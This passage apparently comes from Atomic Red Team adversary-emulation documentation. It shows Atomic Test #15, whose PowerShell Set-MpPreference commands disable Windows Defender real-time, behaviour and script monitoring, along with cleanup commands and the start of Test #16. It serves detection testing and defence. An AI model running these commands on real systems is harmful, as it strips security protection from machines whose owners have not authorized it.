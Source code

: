 #### Cleanup Commands:
```cmd
sc.exe config #{service_name} start= auto >nul 2>&1
net.exe start #{service_name} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #15 - Tamper with Windows Defender ATP PowerShell
Attempting to disable scheduled scanning and other parts of windows defender atp. Upon execution Virus and Threat Protection will show as disabled
in Windows settings.

**Supported Platforms:** Windows


**auto_generated_guid:** 6b8df440-51ec-4d53-bf83-899591c9b5d7






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-MpPreference -DisableRealtimeMonitoring 1
Set-MpPreference -DisableBehaviorMonitoring 1
Set-MpPreference -DisableScriptScanning 1
Set-MpPreference -DisableBlockAtFirstSeen 1
```

#### Cleanup Commands:
```powershell
Set-MpPreference -DisableRealtimeMonitoring 0
Set-MpPreference -DisableBehaviorMonitoring 0
Set-MpPreference -DisableScriptScanning 0
Set-MpPreference -DisableBlockAtFirstSeen 0
```





<br/>
<br/>

## Atomic Test #16 - Tamper with Windows Defender Command Prompt
Attempting to disable scheduled scanning and other parts of windows defender atp. These commands must be run as System, so they still fail as administrator.
However, adversaries do attempt to perform this action so monitoring for these command lines can help alert to other bad things going on. Upon execution, "Access Denied"
will be displayed twice and the WinDefend service status will be displayed.
